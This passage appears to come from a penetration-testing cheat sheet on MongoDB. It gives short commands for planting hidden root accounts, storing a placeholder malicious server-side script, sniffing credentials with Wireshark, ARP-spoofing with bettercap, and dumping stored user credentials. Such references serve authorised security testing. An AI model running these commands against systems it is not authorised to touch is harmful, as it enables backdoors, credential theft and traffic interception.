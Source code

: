 ## Persistence

### Create A SQL User Account
- **Tool:** [[MongoDB]]
	```bash
	db.createUser({user: "backdoor", pwd: "password", roles: ["root"]})
	```
- **Description:** Establishes a hidden administrative account within MongoDB for persistent access.

### Adding Malicious Scripts
- **Tool:** [[MongoDB]]
	```bash
	db.system.js.save({_id: "maliciousScript", value: function() { /* malicious code */ }})
	```
- **Description:** Stores malicious JavaScript code in the database, which can be executed later.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 27017"
    ```
- **Description:** Capture traffic and extract plaintext credentials.

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
	```bash
	bettercap -iface <interface> -T <target_ip> --proxy
	```
- **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

### Querying User Collections
- **Tool:** [[MongoDB]]
    ```js
    db.system.users.find()
    ```
- **Description:** Retrieves stored user credentials and roles from the MongoDB instance.

## Privilege Escalation

### Create Admin Account
- **Tool:** [[MongoDB]]
    ```js
    db.createUser({user: "hiddenAdmin", pwd: "P@ssw0rd", roles: ["root"]})
    ```
- **Description:** Establishes a hidden administrative account within MongoDB for persistent access.
